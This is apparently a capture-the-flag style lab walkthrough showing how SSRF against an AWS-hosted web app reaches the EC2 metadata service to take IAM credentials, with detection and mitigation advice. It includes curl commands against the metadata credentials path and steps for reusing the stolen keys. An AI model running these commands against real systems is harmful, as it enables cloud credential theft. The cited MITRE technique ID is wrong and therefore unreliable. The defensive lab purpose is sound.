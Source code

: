# SSRF to AWS Metadata Credential Extraction

Purpose: Demonstrates how to use SSRF to access AWS EC2 instance metadata and extract IAM credentials. Matches lab flows from PwnedLabs and BTLO.

Server-Side Request Forgery (SSRF) is a web application vulnerability that allows an attacker to make arbitrary HTTP requests from a vulnerable server. In cloud environments like AWS, SSRF becomes highly dangerous when used to access the EC2 instance metadata service, which hosts IAM credentials, tokens, and instance information.

This walkthrough demonstrates how an attacker could exploit an SSRF vulnerability in a cloud-hosted web application to access AWS IAM credentials from the metadata API (169.254.169.254). This technique is widely used in real-world cloud breaches and is included in the MITRE ATT&CK framework under T1557.003: Cloud Instance Metadata API.

This lab was conducted in a controlled environment using a simulated SSRF vulnerability hosted in a cloud-based web application. Platform: PwnedLabs / BTLO (Blue Team Labs Online). Target: Web server hosted on AWS EC2 with a curl-based SSRF parameter. Vulnerability: url= parameter that fails to validate input properly. Attacker Access: External user can inject requests via browser or curl. Detection Scope: AWS CloudTrail, web server logs, metadata access attempt. The goal was to simulate an attacker exploiting this SSRF to retrieve IAM credentials from the metadata service, then abuse those credentials using the AWS CLI.

# SSRF injection example – this is a placeholder and will only work in the lab environment
curl 'http://vulnerable-app.local/api/fetch?url=http://169.254.169.254'

curl http://169.254.169.254/latest/meta-data/
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/

curl http://169.254.169.254/latest/meta-data/iam/security-credentials/webapp-role

Expected output:
{
  "AccessKeyId": "...",
  "SecretAccessKey": "...",
  "Token": "...",
  "Expiration": "..."
}

export AWS_ACCESS_KEY_ID="..."
export AWS_SECRET_ACCESS_KEY="..."
export AWS_SESSION_TOKEN="..."

aws sts get-caller-identity

Cloud defenders can detect this behavior using: CloudTrail logs showing unexpected calls to metadata IP from internal apps. Web server logs containing 169.254.169.254 in user-supplied input. VPC Flow logs with outbound connections to the metadata IP. IAM usage logs showing a token suddenly used for unusual services.

Mitigation & Response: Require IMDSv2 (Instance Metadata Service v2) on all EC2 instances. Use strict input validation on all URL parameters. Enforce least privilege for IAM roles assigned to EC2. Log and alert on traffic to the metadata IP range: 169.254.169.254.

Tools Used: curl – For testing SSRF and extracting metadata. AWS CLI – To use the stolen credentials for identity verification. PwnedLabs / BTLO – Simulated cloud lab environment for SSRF testing. CloudTrail / VPC Logs – For detecting post-exploitation artifacts.

References:
https://attack.mitre.org/techniques/T1557/003/
https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html
https://www.f5.com/labs/articles/threat-intelligence/campaign-targets-amazon-ec2-instance-metadata-via-ssrf